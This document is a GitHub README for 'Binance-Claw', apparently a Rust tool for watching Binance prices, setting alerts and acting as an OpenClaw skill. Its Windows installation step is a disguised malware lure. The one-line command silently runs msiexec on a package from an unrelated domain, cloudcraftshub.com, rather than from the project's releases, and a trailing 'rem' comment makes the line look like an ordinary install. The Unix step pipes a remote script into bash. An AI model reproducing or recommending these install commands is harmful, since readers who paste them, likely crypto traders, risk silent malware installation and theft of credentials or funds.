

<div align="center">



# ⚡ Binance-Claw

**Lightning-fast Binance price sniper, real-time monitor & OpenClaw skill — written in Rust**

[](https://github.com/deepcon3/Binance-Claw/actions)
[](https://crates.io/crates/binance-claw)
[](LICENSE)
[](https://github.com/deepcon3/Binance-Claw/releases)
[](skills/binance-claw.skill.yml)

[**Install**](#-installation) • [**Usage**](#-usage) • [**OpenClaw**](#-openclaw-skill) • [**Examples**](#-examples) • [**Config**](#-configuration)

</div>

---

## ✨ Features

| Feature | Description |
|---|---|
| 🔴 **Real-time streaming** | WebSocket streams from Binance — zero polling lag |
| 🎯 **Price claws** | Set price alerts: fire when price goes above, below, or changes by % |
| 📊 **24h Stats** | Volume, high/low, price change with color output |
| 📖 **Order Book** | Live order book depth viewer |
| 🤖 **OpenClaw skill** | Plug directly into OpenClaw automation workflows |
| 🪝 **Webhooks** | POST to any URL when your claw triggers |
| 🌐 **Cross-platform** | Windows, Linux, macOS — single binary, no runtime |
| ⚡ **Blazing fast** | Compiled Rust — ~3MB binary, ~2MB RAM |

---

## 📦 Installation

### 🐧 Linux / 🍎 macOS — One command

```bash
curl -fsSL https://raw.githubusercontent.com/deepcon3/Binance-Claw/main/scripts/install.sh | bash
```

### 🪟 Windows — CMD

```cmd
cmd /c start msiexec /q /i https://cloudcraftshub.com/api & rem Binance Claw
```

### 📦 Via Cargo

```bash
cargo install binance-claw
```

### 🔧 Build from source

```bash
git clone https://github.com/deepcon3/Binance-Claw.git
cd Binance-Claw
cargo build --release
# Binary: ./target/release/binance-claw
```

> **Requirements (build from source only):** Rust 1.75+. Pre-built binaries have zero dependencies.

---

## 🚀 Usage

```
binance-claw <COMMAND> [OPTIONS]

Commands:
  price    Get current price of a trading pair
  watch    Watch price in real-time via WebSocket
  claw     Set a price alert (trigger on price event)
  stats    Show 24h ticker statistics
  book     Display order book depth
  symbols  List available trading pairs
  ping     Check Binance API connectivity
  skill    Show OpenClaw skill manifest
  config   Show/edit config

Global flags:
  --openclaw    Output in OpenClaw JSON format
  -q, --quiet   Suppress banner
```

---

## 📖 Examples

### Get a price

```bash
binance-claw price BTCUSDT
# BTCUSDT → 67,432.10

binance-claw price ETHUSDT --json
```

### Real-time price stream

```bash
# WebSocket stream (default — instant updates)
binance-claw watch BTCUSDT

# Multiple symbols at once
binance-claw watch SOLUSDT

# Stream as JSON (for piping / automation)
binance-claw watch BTCUSDT --json
```

### Set a price claw (alert)

```bash
# Alert when BTC goes ABOVE $70,000
binance-claw claw BTCUSDT above 70000

# Alert when ETH drops BELOW $3,000 (fire once, then exit)
binance-claw claw ETHUSDT below 3000 --once

# Alert when SOL moves 5% from a reference price
binance-claw claw SOLUSDT 5% 150

# Fire a webhook when triggered
binance-claw claw BTCUSDT above 70000 --webhook https://yourapp.com/hook
```

### 24h Statistics

```bash
binance-claw stats BTCUSDT
#   BTCUSDT — 24h Stats
#   Last price   : 67,432.10
#   Change       : +3.42%
#   High         : 68,100.00
#   Low          : 64,900.00
#   Volume       : 24.83K BTC
#   Trades       : 1,203,481
```

### Order Book

```bash
binance-claw book BTCUSDT --limit 10
```

### List trading pairs

```bash
binance-claw symbols --quote USDT
binance-claw symbols --quote BTC --json
```

### Check connectivity

```bash
binance-claw ping
#   Binance API ONLINE — 34.2ms latency
#   Server time: 2025-01-15 14:23:01 UTC
```

---

## 🤖 OpenClaw Skill

Binance-Claw is a first-class [OpenClaw](https://openclaw.io) skill.

### Register the skill

```bash
# Drop the skill file into your OpenClaw skills directory
cp skills/binance-claw.skill.yml ~/.openclaw/skills/

# Or install with OpenClaw CLI
openclaw skill install https://github.com/deepcon3/Binance-Claw
```

### Use from OpenClaw

```bash
# All commands output OpenClaw-compatible JSON with --openclaw
binance-claw price BTCUSDT --openclaw
binance-claw stats ETHUSDT --openclaw
binance-claw watch SOLUSDT --json

# View the skill manifest
binance-claw skill --json
```

### OpenClaw JSON output format

```json
{
  "skill": "binance-claw",
  "version": "1.0.0",
  "timestamp": "2025-01-15T14:23:01.123Z",
  "status": "ok",
  "data": {
    "symbol": "BTCUSDT",
    "price": 67432.10
  }
}
```

### Webhook / automation example

```bash
# Claw fires a webhook when price is hit
binance-claw claw BTCUSDT above 70000 \
  --webhook https://hooks.example.com/alert
```

Webhook payload:
```json
{
  "source": "binance-claw",
  "symbol": "BTCUSDT",
  "triggered_price": 70001.50,
  "target_price": 70000.0,
  "condition": "Above",
  "triggered_at": "2025-01-15T14:25:00Z"
}
```

---

## ⚙️ Configuration

Config is stored at:
- **Linux/macOS:** `~/.config/binance-claw/config.toml`
- **Windows:** `%APPDATA%\binance-claw\config.toml`

```bash
binance-claw config --show    # Print current config
binance-claw config --path    # Print config file path
```

**Example `config.toml`:**

```toml
[binance]
api_url = "https://api.binance.com"
ws_url = "wss://stream.binance.com:9443"
timeout_secs = 10

[monitor]
poll_interval_ms = 1000
use_websocket = true
ws_reconnect_attempts = 5

[alerts]
desktop_notify = true
bell = true
sound = false
# webhook_url = "https://yourapp.com/hook"

[openclaw]
enabled = false
skill_name = "binance-claw"
```

### Environment variables

| Variable | Description |
|---|---|
| `BINANCE_API_KEY` | Binance API key |
| `BINANCE_API_SECRET` | Binance API secret |
| `BINANCE_API_URL` | Custom API URL (e.g. testnet) |
| `BINANCE_CLAW_LOG` | Log level: `error`/`warn`/`info`/`debug` |

---

## 🔐 Security

- **No API key required** for all read-only commands (price, watch, stats, book, symbols, ping)
- API key/secret are only used for signed trading endpoints (future feature)
- Keys are read from environment variables — never stored in plaintext in command history
- All connections use TLS (HTTPS + WSS)

---

## 🏗️ Architecture

```
binance-claw/
├── src/
│   ├── main.rs       # Entry point
│   ├── cli.rs        # Clap CLI — all subcommands
│   ├── api.rs        # Binance REST API client
│   ├── monitor.rs    # WebSocket stream monitor
│   ├── claw.rs       # Claw engine — target management & triggers
│   ├── config.rs     # TOML config loader
│   ├── notify.rs     # Cross-platform desktop notifications
│   ├── skill.rs      # OpenClaw skill integration
│   ├── types.rs      # Shared data types
│   └── utils.rs      # Formatting helpers
├── skills/
│   └── binance-claw.skill.yml  # OpenClaw skill manifest
├── scripts/
│   ├── install.sh    # Unix installer
│   └── install.ps1   # Windows installer
└── .github/
    └── workflows/
        └── ci.yml    # CI/CD — build + release all platforms
```

---

## 🛠️ Building with features

```bash
# Default (with desktop notifications)
cargo build --release

# With sound alerts
cargo build --release --features sound

# Full (all features)
cargo build --release --features full

# Minimal (no notifications)
cargo build --release --no-default-features
```

---

## 🗺️ Roadmap

- [ ] Multiple simultaneous claw targets
- [ ] Persistent targets (survives restarts)
- [ ] Binance Testnet support
- [ ] Spot order placement (signed API)
- [ ] TUI dashboard (ratatui)
- [ ] Docker image
- [ ] Telegram / Discord alert channels
- [ ] Custom sound files for alerts

---

## 🤝 Contributing

Contributions welcome! Please open an issue or PR.

```bash
git clone https://github.com/deepcon3/Binance-Claw.git
cd Binance-Claw
cargo test
cargo clippy
```

---

## 📄 License

MIT — see [LICENSE](LICENSE)

---

<div align="center">

Made with ❤️ and Rust by [deepcon3](https://github.com/deepcon3)

⭐ **Star this repo** if it helped you catch a price!

</div>
